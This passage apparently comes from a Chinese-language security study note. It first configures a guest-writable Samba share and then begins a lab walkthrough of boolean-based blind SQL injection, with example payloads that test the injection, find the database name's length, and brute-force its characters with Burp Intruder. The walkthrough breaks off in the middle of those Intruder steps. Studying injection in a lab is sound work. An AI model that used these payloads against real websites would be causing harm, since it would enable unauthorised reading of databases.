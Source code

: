     [public]
        comment = Public Stuff
        path = /share
        browseable = yes
        guest ok = yes
        writeable = yes
        public=yes

    ```

    创建文件夹：mkdir /share

    文件夹里放个文档：echo "This is a share file"\>/share/share.txt

    重启服务：systemctl restart smb.service
                       systemctl status smb.service

    测试smb.conf配置是否正确：  `testparm`

    创建用户专门用于共享文件：useradd share

                                                    smbpasswd -a share
    linux访问：smbclient //192.168.10.103/public/

    windows访问：\\\192.168.10.103\public

## 布尔盲注

1. #### 判断注入类型

    http://192.168.100.x:21727/get.php?id=1' and 1=1%23

    ![image](assets/image-20240820205511-d339cj9.png)http://192.168.100.x:21727/get.php?id=1' and 1=2%23![image](assets/image-20240820205552-5fqqrsu.png)

2. #### 判断数据库名长度

    输入到8时 出现回显，所以可知当前数据库为8个字

    http://192.168.100.x:21727/get.php?id=1' and length(database())=8%23

    ![image](assets/image-20240820205511-d339cj9.png)
3. #### 获取数据库名

    1. 挂代理抓包  payload： `?id=1' and mid(database(),1,1)='s'%23`
    2. 在burp suite中【代理】找到对应的包，发送到Intruder（Ctrl+l）
    3. 在【Intruder】-【位置】中选择【集数炸弹-多个Payload集合】-【Paylod位置】选择爆破位置-【添加Payload位置】（此次爆破两个位置）![image](assets/image-20240820230047-r8j69ws.png)